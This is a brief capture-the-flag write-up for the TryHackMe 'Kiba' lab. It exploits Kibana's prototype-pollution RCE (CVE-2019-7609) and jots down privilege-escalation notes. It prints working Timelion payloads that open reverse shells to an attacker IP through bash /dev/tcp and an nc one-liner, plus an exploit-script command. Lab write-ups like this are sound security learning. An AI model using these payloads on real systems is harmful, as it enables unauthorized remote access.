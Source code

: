 # Tryhackmebox - Kiba

## recon

IP=10.10.224.182

ports = 22,80,5044,5601

Article explaing a lot about the CVE: https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/


Interesting from nmap: http://10.10.224.182:5601/app/kibana


Ṕayloads tried:

.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/10.9.15.164/9999 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/127.9.15.164/9999 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.15.164 9999 >/tmp/f");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

python CVE-2019-7609-kibana-rce.py -u http://10.10.45.87:5601 -host 10.9.15.164 -port 9999 --shell 

Python script worked!

## Priv Esc

ls -la ~ 
    .hackmeplease is not normal
    custom python file

Since box is about capabilities gtfobins ftw.

